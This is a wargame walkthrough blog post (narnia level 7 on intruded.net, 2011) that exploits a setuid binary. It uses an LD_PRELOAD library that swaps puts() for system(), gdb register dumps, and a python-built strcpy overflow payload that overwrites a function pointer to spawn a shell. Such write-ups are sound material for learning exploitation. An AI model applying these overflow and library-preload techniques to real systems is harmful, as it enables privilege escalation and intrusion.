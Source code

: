 Title: intruded.net, narnia: level 7
Date: 2011/09/25 00:32
Tags: intruded.net, narnia, x86, gdb, stack, LD_PRELOAD, shared library
Author: Ken Ko

I feel like a GOT/PLT redirect for this one.

[codebox 1]

Not sure how this will go, though, because even though we have the makings of a return-to-libc with the 2 strcpy() calls and the function pointer--there isn't a system() call that was compiled into the binary. The PLT only has useless functions such as printf(), seteuid(), etc.--nothing to spawn a shell.


So if we can't overwrite the address of the pointer to a local system() call, let's overwrite the puts() function entirely.

<code>
level7@narnia:/tmp$ cat puts-system.c
#include <stdlib.h>

int puts(char *s)
{
        system (s);
}
level7@narnia:/tmp$ gcc -fPIC -shared -o puts-system.so puts-system.c
level7@narnia:/tmp$
</code>

The <strong>-fPIC</strong> is required when creating a <em>shared</em> library because we need gcc to give us position-independent-code. That should explain the gcc parameters. 

Alright, let's create a test program to see if this even works for the simplest case:

<code>
level7@narnia:/tmp$ cat puts.c
#include <stdlib.h>

int main () {
        puts("/bin/sh");
}
level7@narnia:/tmp$ gcc puts.c
level7@narnia:/tmp$ LD_PRELOAD="./puts-system.so" ./a.out
sh-3.1$ 
</code>

<em>Nice.</em>

Will this naive approach work with the level7 binary?

<code>
level7@narnia:/tmp$ LD_PRELOAD="./puts-system.so" /wargame/level7 \"/bin/sh\" hi
"/bin/sh"
</code>

Nope. Not at all. What does gdb have to say about this?

<code>
level7@narnia:/tmp$ LD_PRELOAD="./puts-system.so" gdb -q /wargame/level7
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) b system
Function "system" not defined.
Make breakpoint pending on future shared library load? (y or [n]) y

Breakpoint 1 (system) pending.
(gdb) r hi hi
Starting program: /wargame/level7 hi hi
Error in re-setting breakpoint 2:
Function "system" not defined.

Breakpoint 2, 0xb7ee5990 in system () from /lib/tls/i686/cmov/libc.so.6
(gdb) i r
eax            0xbffffa18       -1073743336
ecx            0x1      1
edx            0xffffffff       -1
ebx            0xb7fe7650       -1208060336
esp            0xbffff9dc       0xbffff9dc
ebp            0xbffff9e8       0xbffff9e8
esi            0x0      0
edi            0xb8000cc0       -1207956288
eip            0xb7ee5990       0xb7ee5990 <system>
eflags         0x246    [ PF ZF IF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb)
</code>

Indeed, the system() call is on the stack; but it looks like the address of system() starts with 0xb7 while the code is checking for 0xbf to be the leading byte. Of course, then, we never reach the desired code path. 

So now the issue is that we need system() to be local to the stack, with a 0xbf address. Let's use gdb to try and solve this issue:

<code>
(gdb) disas main
Dump of assembler code for function main:
. . .
0x0804862c <main+312>:  mov    0xfffffffc(%ebp),%eax
0x0804862f <main+315>:  and    $0xff000000,%eax
0x08048634 <main+320>:  cmp    $0xbf000000,%eax
0x08048639 <main+325>:  jne    0x8048647 <main+339>
. . .
(gdb) b *0x0804862f 
. . .
(gdb) r hi `python -c 'print "A"*8 + "BBBBBBBB" + "\x90\x59\xee\xb7"*2'`
. . .
Breakpoint 3, 0x0804862f in main ()
(gdb) i r
eax            0xb7ee5990       -1209116272
. . .
sh: BBBBBBBBYî·Yî·: command not found
</code>

Looks like we have eax pointing, now, to our system() call. This is progress! Even better, we see that the system() call is trying to execute the contents of buffer b1. Once we make this call a /bin/sh, we should be victorious. 

The buffers are all 8 bytes white, so we should count:

/bin/sh <-- 7 characters
So what we want is "/bin/sh " <-- note the extra space at the end. We can't null terminate the string because then strcpy will stop copying!

<code>
int *fp, i;
char b1, b2;
</code>

That's the order of the variable declarations, so the stack should look something like this:

[codebox 2]

The values we want:

<code>
b2: don't care
b1: /bin/sh
i: don't care
fp: system()
</code>

Give this a shot:

<code>
level7@narnia:/tmp$ LD_PRELOAD="./puts-system.so" /wargame/level7 hi `python -c 'print "A"*8 + "/bin/sh " + "#" * 4 + "\x90\x89\xee\xb7"'`
/wargame/level7 b1 b2
</code>

Looks like the binary doesn't recognize one of the parameters--most likely our python call--because it's spitting out the usage help. Try it again, but with quotations around:

<code>
level7@narnia:/tmp$ LD_PRELOAD="./puts-system.so" /wargame/level7 hi "`python -c 'print "A"*8 + "/bin/sh " + "#" * 4 + "\x90\x89\xee\xb7"'`"
sh-3.1$ whoami
level8
</code>

Awesome possum. Being able to overwrite functions with our own definitions using the linker is pretty cool.

What we now have:

<code>
b2: AAAAAAAA
b1: /bin/sh
i: ####
fp: system()
</code>

Final level!

